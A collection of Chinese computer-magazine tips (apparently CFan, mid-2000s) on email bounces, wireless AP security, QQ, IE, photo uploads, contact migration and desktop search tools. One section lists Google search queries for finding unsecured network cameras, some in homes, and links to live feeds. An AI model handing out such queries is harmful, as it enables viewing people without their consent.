## 实例:使用Outlook Express对邮件进行拆分

第一步:启动Outlook Express，选择“工具→账户”，点选已经配置好的账户(见图1)。



第二步:点“属性”按钮，选择“高级”标签。

第三步:在“发送”设置处对拆分邮件大小进行设置(见图2)。



对于连接对方服务器超时的情况，可以稍后重新尝试此邮件的投递;对于域名根本不存在的情况，可使用“nslookup”命令来查看该域名的DNS解析是否正确。

实例:使用“nslookup”查看 softer.softer.cn 域名的有效性(Windows 2000/XP系统有效)

第一步:在“开始→运行”中输入“cmd”进入命令行模式，输入“nslookup”后按回车。

第二步:进入nslookup编辑模式后输入需要查看的域名“softer.softer.cn”回车。

第三步:如果该域名无效则会出现“can't find softer.softer.cn: Non-existent domain”的提示，如果存在该域名则会解析出该域名的IP (见图3)。



## 8. spam, spammers

退信原因:“spam”是垃圾邮件的标记，即被接收方系统认为是垃圾邮件或者由于邮件内容不健康被过滤拒收。

解决方法:请重新修改邮件的内容，尤其是邮件主题(标题)部分的文字说明，可以使用一些比较通俗的字眼如“你好”等，不要使用敏感文字(如“Ad”等)做为信件内容和标题。

## 9. connection timed out

退信原因:连接超时，连接对方服务器超时或者对方的这个域名根本不存在。

解决方法:对于连接对方服务器超时的

## 10. too many, more than 20

退信原因:邮件群发包含过多用户。

解决方法:尽量使得每次发信的接收用户数量控制在邮件服务提供商的限制群发人数之内，如果接收用户比较多，可以分开几次发送。

## 小提示

很多病毒邮件经常把自己伪装成以过信名称为标题，用户往往以为是普通的过信邮件而放松警惕从而打开信件感染病毒，所以说即使是过信邮件也要睁大眼睛，特别是不要运行邮件中的附件，将染毒机率降到最低。

# 当心无线网变“无限网”

实地测试：大多数无线网络不设防

我们特意派出一个测试小组，拿着笔记本在杂志社周边地区（杂志社地处中关村地带，测试地区主要在北三环附近）进行测试，确实在很多地方都能搜索到无线网AP（Access Point，无线接入点）。令人担忧的是，其中超过半数都不设任何防线，利用笔记本的无线网卡可以轻松进入所在局域网，甚至通过他们的连接访问互联网，诸如查看共享文件夹、浏览网页、QQ聊天、E-mail收发……全都不在话下。

如图1，这是一个极端典型的“不设防”小区，所有AP均未修改任何缺省参数，毫无安全性可言。其实，像这样的小区为数绝对不少！

如图2，这就算一个不错的办公区了，有一半AP都启动了安全设置，但还是没有隐藏SSID。



图2：一个安全性稍好的办公区无线网络扫描结果，部分网络启用了加密。

特别声明：以上测试结果是在使用IBM T23笔记本电脑、Lucent ORiNOCO Silver无线网卡（俗称银卡，是公认信号强度极高的一块无线网卡）加IBM Access Connect中自带的无线网扫描程序时得到的，扫描过程都是在步行过程中不断刷新搜索。这些图片，考虑到AP所有者的隐私，不便公布其共享目录内容。而且在检测过程中，我们也仅仅只验证是否成功连接，并未浏览AP主人的电脑资料。

你知道吗？

什么是SSID？

SSID（Service Set Identifier），服务集合标识符，也称为网络名称，作为无线设备连接到WLAN时的密码。该标志主要用来区分不同的无线网络，最多可以由32个字符组成。图1、图2中第一栏的字符就是它们的SSID。

# 无线网络安全要点

-   1. 让别人找不到你的AP
    (1) 让人搜索不到AP的名称
    (2) 无法访问AP本身
    上面的第2点尤其重要，因为这决定着AP的配置修改权是否掌握在你手里。
-   2. 上网者身份需要经过认证
    (1) 严格指定哪些电脑能通过这个AP上网
    (2) 所有访问者必须知道加密认证代码才能正常上网

以上方法如果同时都进行了合理设置，无线网络安全性就能得到最大程度提高。不过，事情总是有两面性的，大部分设置都会牺牲连接方便性。比如：设置高安全级别后，要想将更多电脑加入到无线网中“手续”太繁琐了。

其实，只要根据自己的情况合理搭配上述措施，不仅能提高安全级别，还能兼顾易用性。

# 四招出手，为你的无线网络保安全

下面以华硕WL-330无线AP为例，一起来看看怎样一步一步提高无线网的安全性。



注意对比图3中修改过的设置项目，应该尽量保证都把它们按照自己的需求重新设置，这样才能最大限度提升无线网的安全性。注意：不同的AP设置界面可能会略有不同，但图中提到的这些关键设置应该都包括。

① SSID：也就是网络名称，改个名字即可。
② 使AP对外广播：如果禁用，只有知道SSID的用户才能连接上。
③ 频道：这里无须特别设置。
④ 资料加密：这里一定选择一种加密方式，建议设为128位加密。
⑤ 验证码：输入这个密码后会在下面的⑥中生成几个密钥，你可以把这些密钥提供给无线网中的用户使用，作为通行口令。
⑥和⑦：网络传输中的密钥，当你输入上面的口令后，就会自动生成几个密钥。
⑧ AP的IP地址：建议修改默认值，最好改成那些一般人想不到的IP地址，比如：10.0.0.2之类的。

# 第一招——你找不着我！

套路：停止SSID广播

口诀：SSID就是无线AP的“姓名”。所有电脑要连接到一个AP，都需要知道它的“姓名”。这就好像通过有限网络访问另一台电脑，必须要知道对方的机器名或IP地址一样。缺省情况下，所有AP都是不断向外“广播”自己“姓名”，就像是在说：“嘿，人在呢，人在呢……”这样做的好处是：任何一台电脑只要“听”（就是搜索）到这个“名字”，就能和这台AP“拉上手”。不过，坏处也是一目了然的——居心不良的人也能“听”到这个广播，这相当于开门揖盗！笔者在诸多场所之所以能搜到无数的AP，就是因为“听”到了这样的广播。

杀伤力：停止SSID广播后，所有电脑必须事先从主人或公司网管那里获知AP的“姓名”，才能连接到无线网。这一招虽然是基本招式，但效果不错。

手段：取消图3中②中的对勾即可。如果再能养成定期修改一下SSID的习惯，那么安全性会更高一些。

# 第二招——我不认识你！

套路：无线网卡MAC地址筛选

口诀：每块网卡（包括无线网卡），都有一个全球惟一“身份证号”，它就是MAC地址。正是因为有这个地址存在，网络信息才有可能被准确传送到你的电脑。缺省情况下，所有AP都很“好客”，对所有来访者都展现出来者不拒的“赛孟尝”风范。所以，只要能搜索到一个无线AP，就可以轻松访问这个网络。反过来，只要为AP指定一张它认可的网卡（相当于一台固定的电脑）列表，就能轻松将“不认识”的访问者拒之门外。

杀伤力：由于MAC地址具有惟一性，指定哪些网卡可以连接到一个无线AP，其安全性可以说上了一个新的台阶！不过，这招还是难以躲过高手的回击，毕竟MAC地址可以通过软件探测到（在办公室环境尤其容易），而且伪装MAC地址也不是难事。

手段:在Access Control(访问控制)中的MAC Access Control输入允许的网卡地址即可(如图4中前三项)。



见图4，建立无线网卡MAC地址列表的方法很简单，而且客户端不需要做任何修改就能生效。

# 第三招——进门？掏钥匙！

套路:启动WEP数据传输加密功能

口诀:缺省情况下，出厂设置使AP像一道虚掩的门，只要能走到门前，就能推开它进入无线网络中。前面两招仅仅只是规划了两条走到这道门前的固定线路，只要能闯过那两关，任何人还是能轻松推门而入。如果再给这道门加一把锁，让它变成一扇"防盗门"，然后"给每个家庭成员一把钥匙"，我们的"家"才能真正确保安全！WEP加密是802.11系列中目前兼容性和易用性都很不错的方案，启用它才能使数据传输在全面保护的状况下进行。

杀伤力:WEP加密有两个级别:一个是64位，一个是128位。当然，128位安全性肯定是高于64位(但注意并不一定所有无线网卡都支持128位加密)，所以尽量将这个参数设置为128位。就目前破解手段来说，要攻破128位加密，并不太容易。而且，每次我们可以得到4个"密钥"，随时修改缺省密钥或通过更改密码生成新密钥，这样就能基本做到万无一失了。

手段:在图3中的④处选择加密级别，在⑤处输入验证码，⑥中就会产生密钥。

小提示
128位和64位在客户端(也就是电脑无线网卡)设置的时候，分别对应"26位数字"和"10位数字"。另外，如果密钥生成时是16进制数字串，填的时候也选择16进制，免得费心费力地去转换。

# 第四招——关好后门！

套路:更改AP的缺省IP地址

口诀:三道防线都设好后，似乎可以躺在"家"里安心无线冲浪了。且慢，前门关了，还要当心后门！目前，大部分AP都可以通过浏览器访问"192.168.1.1"这个地址来调用Web页面形式的AP管理程序，并且调整无线网设置，如果不更改它，贪得无厌的恶意盗用者可能会闯荡你的无线网如入无人之境。甚至把你"家"的"门"和"钥匙"给换了，让你有家不能回！因此关好这个后门，比上面这些设置重要得多，最简单的办法就是更改缺省IP。

杀伤力:很可惜，不少AP管理界面不提供密码保护功能。内网用户通过扫描端口，还是很容易找到并且登录到管理程序。这一点，带路由功能的无线路由器就好得多，但也一定要记得，最好修改缺省密码。而且密码最好尽量复杂一些(数字和字母的集合，再变化大小写)，这样才能真正起到保护作用。

手段:在图3中的第8项中，更改AP的缺省IP地址。

# 客户端的设置

在无线网卡属性设置窗口下，点击"无线网络配置"标签，然后点击下面的"添加"按钮，然后填写好新的"SSID"，勾选上"数据加密(WEP启用)"和"网络身份验证(共享模式)"，再填好"网络密钥"即可(见图5)。



小编有话说:本文提到的华硕WL-330是一款功能相对简单的AP，也许你用的AP管理界面比它复杂一些，各个项目出现位置也可能不一样。不过只要认清这几个关键字，也能完成设置。无线网是个好东东，不过，除非你"心胸开阔"、立志"造福大众"，否则，还是趁早把安全问题全部给解决。就算你包月不担心多花"银子"，那带宽总还是自己独享比较爽些。动手吧，这活不累！
(摔锅@CFan)

# 独辟蹊径 封杀QQ系统广播

QQ2004 II正式版发布后，QQ系统广播(即QQ号为10000的"用户")不止一次向每个用户和群组(包括付费会员和高级群组)发送"QQ2004 II正式发布"的消息。但我们似乎难以通过QQ设置选项封杀它，即使用了著名的珊瑚虫外挂，并且已经关闭QQ系统广播也没用，因此，要彻底屏蔽QQ系统消息，最好的方法就是把10000号加入QQ黑名单。

在QQ黑名单中通过"添加坏人名单"，或是先把10000号加为好友然后拖入黑名单(10000号拒绝任何人加为好友)，都不可行。笔者在几经测试后，终于找到了一个"特别"方法……

手机上的QQ除可以收发即时消息，同样具备"我的好友"、"陌生人"和"黑名单"，从手机上把10000号加入黑名单，因为QQ分组信息是即时自动备份的，无论你在手机还是电脑中对好友分组做任何改动，都会即时上传到服务器端，这样，再从PC上登录QQ时，10000号就已经乖乖地呆在黑名单中了。

时下很多手机都具备移动QQ组件，黑白屏的老式手机通常使用短信式移动QQ，彩屏手机则具备QQ图形界面。GSM彩屏手机通常采用Java版的移动QQ;CDMA彩屏手机的移动QQ则普遍建立在Brew平台之上。无论是哪个平台的QQ，只要具备"黑名单"功能，都能为我们所用。

小提示
如果想知道你的手机是否支持移动QQ，以及移动QQ服务开通方法，可以参考腾讯移动QQ网站:http://mobile.qq.com。

下面就以型号为LG C610的手机，以及Brew平台上最新版的"移动QQ2005"为例，看看如何把10000号加入黑名单。

第一步:登录http://brew.qq.com，按照其中介绍的方法下载并安装移动QQ2005，接着输入用户名、密码登录(见图1)。Brew平台上的软件通常都要收费，但移动QQ2005为每个用户提供了至少3天的试用期。而我们的目的只是把10000号加入黑名单，所以完全够用了。

第二步:刚一登录QQ就立刻收到来自10000的广告消息，并且10000号QQ会自动出现在"陌生人"分组中(见图2)。

第三步:进入"陌生人"标签，把光标停在10000号上，执行"菜单→当前好友→添加到黑名单"，10000号就轻松被打入黑名单了(见图3)。







从此，无论使用电脑还是手机上的QQ，都不会再收到任何系统信息。
(Ricky)

# 让OE用新窗口打开网页链接

在OE中如果单击某个邮件中的网页地址，那么系统会打开一个IE新窗口，如果再单击其他地址，那么OE依然会在那个IE窗口打开网页，对于许多朋友来说，他们更希望每次单击链接都打开一个新IE窗口。

如果是Windows 2000/XP，进入"资源管理器"，点击"工具→文件夹选项→文件类型"，在列表中选中"暂缺 URL:超文本传输通讯协议"(Windows XP为"(无) URL:超文本传输通讯协议")，单击"高级"按钮，然后在弹出窗口中的"操作"下选中"Open"并单击"编辑"，接着取消"使用 DDE"的勾选，完成后按下"确定"退出。

如果是Windows 98，进入"资源管理器"，点击"查看→文件夹选项→文件类型"，在列表中选中"URL:超文本传输通讯协议"，然后点击"编辑"按钮，接着在"操作"项中选中Open，然后点击"编辑"按钮，取消"使用 DDE"的勾选，接着在"用于执行操作的应用程序"文本框的字符串最后空一格，加上%1，最后显示为:"C:\Progra~1\Intern~1\iexplore.exe" -nohome %1，完成后按下"确定"退出。

接着关闭所有IE窗口以及OE，再次打开OE，你会发现当点击邮件中的网页地址时，会使用新窗口打开。
(亮亮)请来专家 网易相册更快更强

现在最火的网络相册非网易相册莫属，其最大特点就是容量没有限制，上传和浏览速度快。可是，网易相册有一个非常明显的缺陷：没有提供批量上传图片的功能，只能一张张通过网页来将图片上传，如果需要上传大量图片，那就显得十分麻烦了。不过有了“网易相册上传(下载)专家”(以下简称“上传专家”)，一切又变得那么方便快捷了！

**网易相册上传(下载)专家小档案**
软件版本：1.05
软件大小：662KB
软件性质：免费软件
适用平台：Windows 98/2000/XP
下载地址：http://www.onlinedown.net/soft/36621.htm
软件备注：此软件非常“绿色”，下载后直接解压并运行其中的Photo163Up.exe即可。

## 1.还没有网易相册的账号?

打开网易相册的首页http://photo.163.com/，点击“免费注册”按钮申请自己的网易相册。如果你已经有网易的通行证，则可以直接使用网易通行证登录至网易相册，填写好个人信息后便可以创建属于自己的网络相册了。要知道：网易提供的是无限空间的相册哦！

## 2.实现批量上传图片

第一步：运行上传专家，在窗口右侧的“登录信息”中输入网易相册的用户名和密码，单击“登录”按钮，登录至网易相册服务器(见图1)。
第二步：第一次登录相册时，上传专家会弹出一个“新建目录”对话框，在其中可以建立相片存储的文件夹，并设定该文件夹的权限(见图2)。如果你希望这个文件夹对网络上所有用户公开，可以选择“完全公开”；如果只是希望该相册被少数朋友分享，则可以在“需要密码认证”框内输入访问密码，同时将密码和相册地址告诉朋友。



第三步：设定好图片要上传的文件夹之后，就要选择需要上传的图片了。如果需要上传多张图片，请单击“选择图片”按钮，打开文件浏览对话框，选择多张要上传的图片(在选择图片时按住Ctrl键)，点击“打开”按钮。如果需要上传某文件夹中的所有图片，则请运行菜单“文件→添加文件夹”，并选择要上传的图片文件夹。
第四步：图片选择完毕后，在上传专家的主窗口左侧会以列表的形式来显示图片的具体信息，可以点击“图片预览”选项卡来预览图片。
第五步：在“线程”框中设置好上传图片所使用的线程数(如无特殊需要，强烈建议采用默认设置“2”)，单击“立即上传”按钮即可开始批量上传图片了。



## 3.常见问题解答

- (1) 为什么我无法创建新相册(提示未知错误)?
答：请先使用注册好的“网易通行证”在网易相册登录一次，第一次登录相册会提示填写相关资料后才能激活。
- (2) 为什么在Windows XP/2003下无法上传图片?
答：选择菜单“编辑→外观选择→标准界面”，再进行上传。
- (3) 如何获得已上传的图片的地址?
答：选择菜单“相册管理→管理相册”，在弹出的窗口中进入图片所在的远程文件夹，右击已上传的图片并在弹出菜单中选择“属性”，在“文件路径”中的即为该图片的地址。
- (4) 为什么上传图片失败?
答：每张图片必须小于2.5MB，且只能是JPEG或GIF文件。

(福建 柳坚)

# 绝对隐私！隐藏在互联网上的摄像头

现在，很多网友已经购买了好用又便宜的摄像头，可以和其他朋友进行视频聊天。不过，仅仅看到自己周围的人物有些单调，要是能看到世界各地的即时画面就好了。其实这并不难，Internet上有很多免费的摄像头(Webcam)等着你呢！

# 利用 Google 搜索隐藏视频

Google真的几近于无所不能，除可以用作强大的黑客工具外，还能用来搜索到成百上千未加密的Webcam(网络摄像头)。只要在Google中搜索以下几个关键词中的任何一个：“inurl:"ViewerFrame?Mode="”，“inurl:"MultiCameraFrame?Mode="”，“intitle:"Live View / - AXIS"”，“inurl:"axis-cgi/mjpg"”，“intext:"MOBOTIX M1" intext:"Open Menu"”或者“inurl:"view/index.shtml"”等等，就可以发现非常多的在线视频(见图1)。不仅如此，已经有“乐于助人”者将这些结果都排列好了，大家可以直接到http://www.undertree.us/allcams.html中查看。



# 神秘的摄像头来自哪里?

你可能会奇怪，这些视频都是哪里来的？为什么有人会把它们连接到互联网上？其实，这里也没有什么“不可告人”的秘密，这其中大部分都是安装在一些大厦顶端、公园、甚至家中的保安监视画面，只是连入互联网而已。这样，负责管理这些摄像头的用户就可以远程监控了。比如，在家里装上摄像头，上班时间就能在办公室查看家中状况，是否有小偷光顾等。这就好像现在国内一些大城市的主要路段都安装有摄像头，用来监控城市交通拥堵状况。因此从中并不能发现什么惊天的秘密，用来满足我们的好奇心或是看看外国的景色倒是不错。

# 你知道吗?

为什么Google的这些关键字能搜索到它们呢？其实原理很简单，这些设在各地的摄像机在购买的时候都会附赠一套软件，提供将其发布到Internet的服务，而不同品牌的摄像机产生的URL虽然不同，但都有一定规律。比如输入“inurl:"ViewerFrame?Mode="”后搜索到的就是Panasonic(松下)网络摄像机拍摄的画面，输入“"image?cachebust="”搜索到的则是Camarades摄像机……

# 快来看看几个有意思的 Webcam 站点

- 1. 日本某酒店的大堂，你可以通过页面左侧的按钮来指挥摄像机拍摄的角度，也可以设置画质、分辨率等，地址：http://lobby.yumemisaki.co.jp:8080/ViewerFrame?Mode=Motion。
- 2. 最受欢迎的几个Webcam，大都设置在会议室、网吧、停车场，打开该页面后选择“Show Most Popular”，单击“Go!”即可。地址：http://www.opentopia.com/hiddencam.php。
- 3. 该站点可以通过拍摄的场景和摄像机所在的国家来分类查找Webcam，比如你想看看美国某个风景区的即时画面就可以从这里找到。地址：http://www.onlinecamera.com/cgi-bin/find.cgi。
- 4. 这里提供的全部是美国各地的交通路况即时查看，不过对国内的朋友来说，看看玩还是不错，地址：http://www.pinecam.com。

# 把 Webcam 设置成屏保

笔者在寻找这些神秘的Webcam时，偶然发现了一款非常有趣的软件——V-CamShow，它内置了很多Webcam，包括伦敦的大笨钟(Big Ben)、尼亚加拉瀑布(Niagara Falls)、巴拿马运河(Panama Canal)等世界著名景点，你不仅可以观看它，还能像看幻灯片(Slide Show)一样欣赏每个画面。如果你兴致浓厚，干脆把Webcam设置成屏幕保护！

**V-CamShow小档案**
软件版本：1.4.0.0
软件大小：460KB
软件性质：免费软件
运行平台：Windows 9X/ME/NT/2000/XP
下载地址：http://virdi-software.com/vcamshow/vcams140.zip

软件不需要安装，直接运行即可，在“Webcams”标签中选择一个你想观赏的地点，右边能够看到该Webcam的相关信息，单击“Webcam image URL”后面的“Connect to this cam”按钮即可看到远程画面了(见图2)。单击“Start Slide Show”按钮，你可以以默认10秒的画面间隔时间来全屏欣赏远程画面。切换到“Slide Show”标签，在“Slideshow interval”中可以设置刷新画面的时间间隔，勾选“Actual size (in window)”则在窗口中观看(见图3)。



# 简简单单完成好友转移

名词约定：在下文操作步骤中，原来的QQ号码/Messenger账号(即转出的待转移旧号码)称为“旧号”，而新的QQ号码/MSN Messenger账号(即需要转入好友的号码)称为“新号”。

## 1.QQ篇

腾讯公司还是很周到的，适时地推出了“好友克隆”服务，很轻松就能把一大堆好友克隆到另一个号码中。可是，这个服务只针对QQ会员，如果你是普通用户，那就对不起了。不过要说免费的方法嘛，那还是有的。

第一步：在本地机器上将旧号和新号分别登录一次(登录成功与否以QQ安装目录下是否含有以旧号和新号的号码命名的目录为准)，登录成功后关闭QQ。
第二步：打开QQ安装目录下以旧号命名的目录，将其下的user.db文件复制到QQ安装目录下以新号命名的目录下。
第三步：登录新号，此时你会发现旧号中的好友已经全都出现在新号的好友名单中了，不过全都显示为不在线。
第四步：点击QQ面板上的小喇叭图标(见图1)打开“信息管理器”，将需要转移的好友用“Ctrl+点选”的方式选中(如果需要转移全部好友可以用Shift选取)，拖动到“陌生人”中，此时会弹出很多对话框询问你是否将此号码从好友名单中删除，一一点击“确定”直到全部删除。
第五步：在“陌生人”中用Shift选取方式全选所有刚才在好友名单中删除的号码，拖动到“我的好友”中，此时在弹出的好友加入对话框中再次一一确认即可完成好友的添加(如果对方不用验证则不会弹出此确认对话框)。



## 2.MSN Messenger篇

第一步：打开MSN Messenger并以旧号登录，选择菜单“联系人→保存联系人名单”，在保存文件提示框中选择路径将好友名单保存为一个CTT文件。
第二步：以新号登录MSN Messenger，选择菜单“联系人→从已保存的文件中导入联系人”，选择刚才已保存的CTT文件导入，就完成了好友的转移。

## 小提示

- ★如果要对MSN Messenger某一个组中的好友进行转移，可以选中该组，在右键菜单中选择“将组保存到文件”(见图2)。
- ★CTT文件实际上是文本格式的XML文件，用“记事本”打开后，在<contactlist>和</contactlist>之间插入形如“<contact>联系人E-mail</contact>”的行即可为此CTT文件添加联系人。



(上海 狂PK 河北 心随移动)

# 网页一点即收藏 Internet 资讯大共享

如今网络信息爆炸，但差不多每个人每天只是固定地浏览常去的几个网站。Internet上网网站数不胜数，于是许多来自其他网站的精彩信息常常无缘得见，如果每个人能够把他每天看到的、过滤出来的好东西共享给所有人，那么这样的资讯肯定是精华中的精华。最近新浪提供的ViVi收藏夹便为我们提供了这样的共享服务。通过它，你可以随手将自己看到的好文章、好网站收藏进自己专属的网络收藏夹，这样不仅能随时、随地找到和重温以前看过的好网站，并且还可以享受与他人共享的乐趣(如果选择了共享的话)。

第一步：首先，下载并导入http://vivi.sina.com.cn/collect/vivi.reg注册表文件，完成后重启浏览器，这样在IE的右键菜单中便会多出一个“收藏此页到ViVi”的选项。
第二步：如果你还不是新浪的会员(比如：新浪爱问iAsk.com、新浪交友、新浪论坛、iGame等)，请进入http://vivi.sina.com.cn/user/register.php免费注册为会员。
第三步：在上网时如果看到精彩的网页，只需在其中右击并选择“收藏此页到ViVi”，接着便会弹出如图所示的窗口(如果选择了“公开”，你的这个收藏将被公布在ViVi网站相应类别中)，设置完毕后单击“收藏到ViVi”即可完成收藏。
第四步：如果想查看和管理自己的收藏，可进入http://vivi.sina.com.cn/并登录，接着单击“我的收藏”对以前收藏的网页进行管理。同时你也可以在ViVi网站中查看其他人共享的网页，如果喜欢则可直接单击相应网页右上角的“我也收藏此页”。



## 小提示

更多网络文摘网站
其实新浪ViVi并不是第一个提供网络文摘的网站，国内比较有名的还有“天天网摘”(http://www.365key.com)、“网络书签”(http://www.younote.com/)、“加加文摘”(http://z.jjol.cn/)、博采(http://blogmark.blogchina.com/)等。它们的使用方法和模式与ViVi基本相同。

# 给IE工具栏装个新建空白页按钮

在使用IE浏览网页时，如果需要新开一个窗口访问其他网址，通常都是在IE的菜单栏中依次选择“文件→新建→窗口”或按下Ctrl + N组合键来完成。可是，这样新开窗口有个很大的问题：该窗口会自动打开和当前正在浏览的网页内容相同的网页。如果该网页有很多的图片和Flash的话，新开的窗口启动便会很慢，浪费我们宝贵的时间。因此，有必要想办法实现快速新建一个IE的空白窗口。

```
javascript:void(window.open("about:blank","_blank"))
```

要新建一个空白页面，可在地址栏内输入以上脚本内容，回车后便会新开一个IE空白页窗口了。
如果IE启用了“弹出窗口阻止程序”，或安装了Google Toolbar等能阻止弹出窗口的IE插件，并且已经启用了弹出窗口拦截功能，就无法使用以上的方法新建页面了。
如果每次新建窗口都要在地址栏内输入脚本，未免太繁琐。其实可以将新建空白窗口的快捷方式放在IE工具栏上，以后只要单击该按钮就可以快速新建空白页了。请先下载http://www.newhua.com/cfan/200503/newwin.zip，下载后将其解压缩，然后右击newwin.inf文件，在弹出的菜单中选择“安装”命令，新建空白页的快捷方式便会被自动安装至IE工具栏上，重启IE后便可以在工具栏上看到相应按钮了(见图)。



现在，我们只要随时点击新建窗口按钮，IE马上就会打开一个空白的窗口，是不是很方便了？

## 小提示

- ★以上方法在目前流行的Firefox上也适用。
- ★如果系统是Windows XP SP2，新建的窗口可能会有一个提示信息，不必管它，并不影响使用。如果不再需要这个功能，可以依次进入“控制面板→添加或删除程序”，在已安装程序列表中找到Internet Explorer New Window Button，点击删除按钮将其卸载即可。

# 小编有话说

其实前面的脚本命令还可以稍加改动，从而让它实现打开新窗口并链接到某个网站。很简单，只要这样修改："javascript:void(window.open('http://www.cfan.com.cn',''))"，运行后会用新窗口打开《电脑爱好者》网站。会了这个后，你可以改造一下newwin.zip中的newwin.htm，将其中“var wind = window.open('about:blank','_blank');”修改一下，这样就等于在IE工具栏中增加了一个新窗口打开《电脑爱好者》网站的按钮。

(福建 柳坚)



## 小提示

如果你访问网络需要代理，则切换到“Webcam options”标签，勾选“Use proxy”并填写代理服务器的地址和端口号，“Http timeout (secs)”则填写连接超时的间隔时间。
怎么样？Webcam还是挺有意思的吧？其实你也可以把自己的摄像头画面发布到网页上去，而且使用方法并非你想像的那么复杂，具体操作大家可以参考本刊2004年第8期64页的《一分钟架设视频直播站》一文。

(四川 飞翔)

# 三个桌面搜索都是大腕 我该挑谁

某日，笔者正在为找一篇以前写的文章焦头烂额，因为已经记不得它被塞到硬盘的哪个位置了，甚至连文件名也忘了。于是想到了近来几大软件公司发布的桌面搜索工具，据说它们都能够根据内容来搜索硬盘中存放的文档。不过我却在为究竟选择哪一款犯了难——Google、微软、雅虎，哪一家都是业界响当当的人物啊！将它们统统下载到硬盘，进行了一番挑剔之后，我们有了下面的总结。

# 广发英雄帖——桌面搜索达人齐聚

按照这三家公司的桌面搜索软件发布时间的先后排列，它们分别是 Google Desktop Search(以下简称为 GDS)、MSN Toolbar Suite(以下简称为 MTS)、Yahoo! Desktop Search(以下简称为 YDS)。三款软件都免费，且目前都在测试中，其中 GDS 和 YDS 都只提供了桌面搜索相关的功能，而 MTS 则不仅包含桌面搜索，而且整合了大家熟悉的 MSN Toolbar。下面的表格中给出了它们的安装文件大小以及下载地址，从中我们可以看出 GDS 的个头最小，这是否代表它的功能最弱呢？接着往下看。

| 附表 1 | |
|---|---|
| 软件名:GDS | 软件大小:447KB |
| 下载地址: http://desktop.google.com/GoogleDesktopSearchSetup.exe | |
| 软件名:MTS | 软件大小:4813KB |
| 下载地址: http://g.msn.com/8SEURL/enusDownloadSuiteURLbdy_results | |
| 软件名:YDS | 软件大小:7885KB |
| 下载地址:http://desktop.yahoo.com/download | |

# 比武大招亲——看看谁适合“入嫁”到你的硬盘

为了找到最适合自己的一款，我们分为四个回合来对它们进行对比考验，其中前三个回合是主要特性的对比，最后一个回合是自由发挥的时候。相信你在看完这 4 个回合的比拼结果之后，也会跟笔者一样做到心中有数。

## Round 1:支持的文件类型

| 附表 2 | |
|---|---|
| 软件名 | 支持的文件类型 |
| GDS | Outlook/OE邮件， Word、Excel、 PowerPoint、文本文档， IE 缓存文件， AIM 聊天纪录 |
| MTS | Outlook/OE邮件(包括附件), Word、Excel、 PowerPoint、文本文档， PDF文档， IE 缓存文件，音乐、视频、图片等 |
| YDS | Outlook/OE邮件(包括附件), Word、Excel、 PowerPoint、Text、 RTF、 PDF文档， IE 缓存文件，音乐、视频、图片、 ZIP等(共200多种，可以到http://desktop.yahoo.com/filetypes去查看所有支持的文件类型) |

判决:YDS 胜出， MTS 紧随其后，两者几乎旗鼓相当。其中比较关键的是两者都支持对PDF文件进行内容搜索，不过默认情况下 MTS 并不支持，需要下载安装一个微软提供的 ifilter插件，下载地址:http://g.msn.com/8SEENUS/AdobeLinkbdy_successuite。需要说明的是，对于 MTS 和 YDS 来说，其对音乐、视频、 ZIP等非文档型文件的支持，是指它们能够检索到这些文件的文件名、作者、创建时间等信息。

## Round 2:搜索的结果数和速度

三款软件搜索原理都一样:在本地硬盘中建立一个索引(index)服务器，然后通过在系统空闲时间里对硬盘中的文件信息进行收集、索引。进行搜索时，索引服务器便在索引中寻找符合条件的文件并列出结果。由此可以看出，对于刚刚安装的桌面搜索工具，是搜索不到任何结果的，必须给一定时间让它索引本地文件，该时间的长短取决于你硬盘中文件的数量以及计算机的空闲时间。

在安装它们 5 小时后，以“OK”为关键字搜索， GDS、 MTS、 YDS 得到的结果数量分别是:17、 108、 50，而它们各自索引的文件数量分别为:9010、 13954、 10243。这个结果应该在大家预料之中，因为 GDS 支持的文件类型最少。而在搜索速度上，除 GDS 有显示为“0.03 秒”外，其它两个工具所需时间无法得知，不过应该与之不相上下，三款工具在搜索时都是几乎瞬间即可获得结果。
判决:在搜索结果数上 MTS 胜出，在搜索的定制性上 YDS 胜出。除了 GDS 外，其他两款工具都支持手动索引文件，且 YDS 对索引的可定制性更高。

## Round 3:对中文的支持能力

通过笔者测试， MTS 对中文支持最为出色，几乎达到完美。 GDS 在测试过程中则出现了两个问题:一是有时搜索结果中会出现乱码;(见图2)二是它不支持中文分词，也就是说它把中文的句子当作是一个单词来处理。YDS 的表现则最差，笔者经常遇到它能检索到结果，但却因为结果文件所在目录的目录名或者结果文件的文件名是中文，而无法打开的情况。
判决:MTS 胜出， GDS 紧随其后， YDS 最后。



## Round 4:各自的特色功能

下面来看看它们各自还有什么花样可以吸引用户。
1.GDS——缓存的妙用
GDS 的特色之处在于它对每个搜索结果都提供了类似 Google 的页面缓存功能。该功能可以作为我们挽救误删文件的一种方法，比如你某天撰写的一篇日记，该日记是用 Word 文档保存的，但你不慎将它删除，我们可以通过 GDS 来搜索，在搜索结果中点击“cached”链接，即可将内容找回来。
2.MTS——整合功能的大杂烩
MTS 其实是 MSN Toolbar 和 MSN Deskbar 两个工具的整合，除了提供比较强大的桌面搜索功能外，它提供的 MSN Toolbar 还增加了自动填写网页表单(Form Fill)、阻止网页弹出窗口(Blocked)、直接登录 Hotmail 相关页面(Hotmail)、即时显示 MSN Messenger 在线人数(MSN Messenger)、与微软推出的 MSN Space 网络日志配合的 Spaces 按钮等等(见图3)。



小提示
MTS不仅整合进了 IE 浏览器，而且也整合到了资源管理器和 Outlook/OE 中，你可以在这些地方使用到它有针对性的搜索功能，比如在 Outlook 中默认搜索就是搜索 Outlook 邮件(见图4)。当然， YDS 也被整合到了 Outlook 中，提供了一个 YDS 搜索工具栏。



3.YDS——远程搜索和超强的结果预览功能
YDS 中提供了一个允许远程计算机搜索本机索引文件的功能，这可以让你在其他计算机中完成搜索，有时利用该功能会大大提高我们的工作效率，特别是在单位局域网中查找文件时。要开启该功能需要在 YDS 中选择“Tools→Options”，切换到“Server Mode”标签，单击“Enable Server Mode”按钮，并勾选“Allow other users and computers on the Network to access your index”。不过我们发现该功能目前问题很多，也许是当前 YDS 版本还很不稳定吧。
此外， YDS 还提供了对多种搜索结果文件类型的预览功能，如所有文档格式文件，Outlook/OE 邮件，甚至音乐、视频文件(需要在“Options”设置窗口中切换到“Play Media Files”标签，勾选“Play Media Files in View Pane”一项)(见图5)。有意思的是，用它来搜索 Outlook 中的邮件， YDS 直接提供了一个“Apply”按钮，单击它我们可以直接调用 Outlook 来回复该邮件，非常方便。



小提示
